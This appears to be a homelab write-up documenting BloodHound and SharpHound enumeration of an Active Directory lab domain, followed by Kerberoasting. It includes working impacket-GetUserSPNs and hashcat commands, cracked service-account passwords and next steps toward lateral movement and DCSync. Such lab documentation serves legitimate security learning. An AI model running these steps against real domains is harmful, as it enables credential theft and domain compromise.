









# 05 - BloodHound AD Enumeration & Kerberoasting

## Overview

This document covers the Active Directory enumeration performed against `homelab.local` using BloodHound CE and SharpHound, followed by Kerberoasting to extract and crack service account credentials.

**Attacker:** Kali Linux `10.10.10.100`
**Target DC:** DC01 `10.10.10.10` — `homelab.local`
**Domain user used:** `alice.rossi` / `Password123!`

---

## Phase 1 — BloodHound Graph Analysis

After importing the SharpHound ZIP (see `setup/12-bloodhound-sharphound-collection.md`), the BloodHound CE UI at `http://127.0.0.1:8080` is populated with domain data.

### 1.1 — UI Empty (pre-import baseline)


### 1.2 — Domain Admin Node Properties

Search for the `Domain Admins` group to inspect its members and inbound edges.


### 1.3 — Pathfinding: alice.rossi → Domain Admins

Use the **Pathfinding** tool: set `alice.rossi@HOMELAB.LOCAL` as start node.


No direct path found from `alice.rossi` to Domain Admins via default edges:


However, ownership and GenericAll edges reveal lateral paths:


### 1.4 — Search: alice.rossi Node


---

## Phase 2 — Cypher Queries

### 2.1 — GenericAll Relationships

```cypher
MATCH p=(u)-[:GenericAll]->(t) RETURN p
```


268 GenericAll relationships found — confirms overprivileged ACL configuration in the lab domain.

### 2.2 — Shortest Path to Domain

```cypher
MATCH p=shortestPath((u:User)-[*1..]->(g:Group {name:"DOMAIN ADMINS@HOMELAB.LOCAL"})) RETURN p
```


### 2.3 — hasSPN Query (Kerberoastable Accounts)

```cypher
MATCH (u:User {hasspn:true}) RETURN u.name, u.serviceprincipalnames
```


**Note:** BloodHound CE returned no results for `hasspn:true` because SharpHound collected with `alice.rossi` (standard user) and the SPN property was not populated in this collection run. Kerberoastable accounts were identified via `GetUserSPNs.py` instead (see Phase 3).

---

## Phase 3 — Kerberoasting

### 3.1 — Extract TGS Hashes with GetUserSPNs

From Kali, request TGS tickets for all accounts with registered SPNs:

```bash
impacket-GetUserSPNs homelab.local/alice.rossi:Password123! \
  -dc-ip 10.10.10.10 \
  -outputfile /tmp/kerberoast.txt
```


**Result:** 2 TGS hashes captured:
- `svc-sql` — SPN: `MSSQLSvc/dc01.homelab.local:1433`
- `svc-backup` — SPN: `BackupSvc/dc01.homelab.local`

**Hash type:** Kerberos 5, etype 18, TGS-REP (`$krb5tgs$18$...`) — AES-256.

### 3.2 — Hash Mode Identification (Troubleshooting)

Initial attempt used mode `13100` (RC4/etype 23) — incorrect for AES-256 hashes:

```bash
cat /tmp/kerberoast.txt
# Hash starts with $krb5tgs$18$ → etype 18 = AES-256 → mode 19700
```


Correct mode: **19700** (Kerberos 5, etype 18, TGS-REP).

### 3.3 — Crack with rockyou.txt

First attempt using the standard wordlist:

```bash
hashcat -m 19700 /tmp/kerberoast.txt /usr/share/wordlists/rockyou.txt
```


rockyou.txt was running but had not cracked `svc-backup` within the session window:






### 3.4 — Crack with Custom Wordlist

Created a targeted wordlist based on known lab password patterns:

```bash
echo -e "SqlService2024!\nBackup!2024" > /tmp/custom.txt
cat /tmp/custom.txt
```

First run with `SqlService2024!` only:

```bash
hashcat -m 19700 /tmp/kerberoast.txt /tmp/custom.txt --force -w 3
```



**Result:** `svc-sql` cracked immediately:



`svc-backup` exhausted (password not in single-entry wordlist):



Updated `custom.txt` with both passwords and re-ran. hashcat skipped the already-cracked `svc-sql` hash (potfile entry):





**Both hashes cracked:**



### 3.5 — Cracked Credentials

| Account | SPN | Password |
|---|---|---|
| `svc-sql` | `MSSQLSvc/dc01.homelab.local:1433` | `SqlService2024!` |
| `svc-backup` | `BackupSvc/dc01.homelab.local` | `Backup!2024` |

### 3.6 — Password Reset Attempt on DC01 (Failed — Policy)

Attempted to reset `svc-sql` password via PowerShell on DC01 to verify account control:

```powershell
Set-ADAccountPassword -Identity svc-sql `
  -NewPassword (ConvertTo-SecureString "password123" -AsPlainText -Force) -Reset
```



**Result:** Failed — domain password policy requires complexity. This confirms the domain policy is active. A compliant password would succeed (e.g., `NewP@ss2024!`). Reset was not required for the lab objective.

---

## Results Summary

| Technique | Tool | Result |
|---|---|---|
| AD graph collection | SharpHound 2.12.0 | 316 objects |
| Graph analysis | BloodHound CE 9.1.0 | Domain mapped, ACL paths identified |
| SPN enumeration | impacket-GetUserSPNs | 2 Kerberoastable accounts |
| Hash cracking | hashcat mode 19700 | 2/2 cracked |

---

## Next Steps

- **Post-exploitation:** lateral movement to DC01 using `svc-sql` credentials via `impacket-smbexec`
- **Pass-the-Hash:** test NTLM hash reuse across domain accounts
- **DCSync:** use `labadmin` (Domain Admin) to dump all domain hashes via `impacket-secretsdump`

See `theory/04-active-directory/05-bloodhound-graph-analysis.md` for the theoretical background on BloodHound graph concepts and Kerberoasting mechanics.
